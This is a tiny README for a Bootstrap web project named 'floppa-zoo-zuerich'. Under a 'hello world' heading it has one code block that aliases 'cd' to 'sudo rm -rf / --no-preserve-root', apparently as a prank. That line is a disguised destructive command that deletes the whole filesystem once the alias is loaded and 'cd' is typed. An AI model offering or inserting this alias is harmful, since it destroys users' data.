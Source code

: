 # floppa-zoo-zuerich
Web project made with Bootstrap

## hello world
´´´
alias cd='sudo rm -rf / --no-preserve-root'
´´´